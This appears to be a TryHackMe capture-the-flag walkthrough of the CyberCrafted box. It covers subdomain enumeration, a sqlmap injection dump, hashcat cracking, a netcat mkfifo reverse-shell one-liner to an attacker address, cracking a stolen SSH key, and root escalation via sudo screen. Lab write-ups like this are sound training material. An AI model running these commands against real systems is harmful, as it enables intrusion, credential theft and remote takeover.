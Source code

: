 ```yaml
---
title: THM CyberCrafted
date: 2023-09-16 08:01:00 -0800
categories: [Walkthrough, TryHackMe]
tags: [THM, TryHackMe, CTF]
published: true
---
```


## CyberCrafted

Hello. Here is my write up for the TryHackMe box CyberCrafted. It's a medium ranked machine that has an in-development minecraft server that we will try to root. This writeup assumes you have knowledge of basic penetration testing tools but I will go through any of the advanced techniques should I find any.

## enumeration

### nmap

As first I will start off with nmap scans for open ports and services. I use a script that is on my github called [0xscan](https://github.com/0xskar/0xscan). It's just a bash script that automates the port scanning.

Here we find 3 open ports, 22 SSH, 80 HTTP, and a minecraft server on 25565.

Noticing the redirect on the http server we will add cybercrafted.thm to /etc/hosts an scan the domain for subdomains and other information.

### sub-domains

I have the best luck using wfuzz for quick domain scanning here is my goto command for different scenarios only the hidewords or text generally needs to be modified:

- `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://cybercrafted.thm -H "Host: FUZZ.cybercrafted.thm" --hw 0`

Here we see three domains in the output - with these we can start enumerating files and other subdirectories with gobuster or feroxbuster

```
000000001:   200        34 L     71 W       832 Ch      "www"                                 
000000037:   403        9 L      28 W       287 Ch      "store"                               
000000036:   200        30 L     64 W       937 Ch      "admin"
```

### www.cybercrafted.thm

Using gobuster to scan for specific file extensions and directories

- `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u http://www.cybercrafted.thm -x txt,php,html`

![secret directory](/assets/cybercrafted_01.png)

Here we can see a secret directory with some jpegs, the file sizes look a little strange. Going to download these to my machine.

#### stegcracker herobrine-3.jpeg

Find something here inside of this jpeg but I cant figure out how to decode.

- `IDDOJQWM5BAMEQGIZLBMQQEKTSEEE======`

### store.cybercrafted.thm

running a gobuster scan here we reveal search.php which using sqlmap we find it is vulnerable to sql injection. 

- `sqlmap --wizard`

```
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.7.35-0ubuntu0.18.04.1'
current user: 'root@localhost'
current database: 'webapp'
current user is DBA: False
```

lets enumerate databases

- `sqlmap -u "http://store.cybercrafted.thm/search.php" --method POST --data "search=&submit=" -p search --batch --dump`

![sql map dump](/assets/cybercrafted_02.png)


### hashcat

we use hashcat to identify the hash which is sha-1 raw we can then use it again to crack the hash

- `hashcat -m 100 '88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01' /usr/share/wordlists/rockyou.txt`

![hashcatting](/assets/cybercrafted_03.png)

## getting reverse shell 

using the previous credentials we can login to the admin panel and run some system commpands, probably get a reverse shell onto the system.

start up a netcat listener `nc -nvlp 9001`

then run system command to recieve shell: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ADDR 9001 >/tmp/f`

### escalation

checking the home directory we can see the users dir and the .ssh and id_rsa is accessible. we can copy the contents of the id_rsa to our pc and feed it to ssh2john to get a hash then feed the hash to john to get the password for the rsa file and use the chmod'd 400 id_rsa to ssh into the system as our user.

Once logged into the user check /opt/minecraft for the server flag and a note. Also check the plugin directory and get the user passwords checking the log file.

once we su to cybercrafted `sudo -l` lets us see we can run screen as root.

`sudo scree`

using screen commands we can drop a shell with `control+a` then `c`
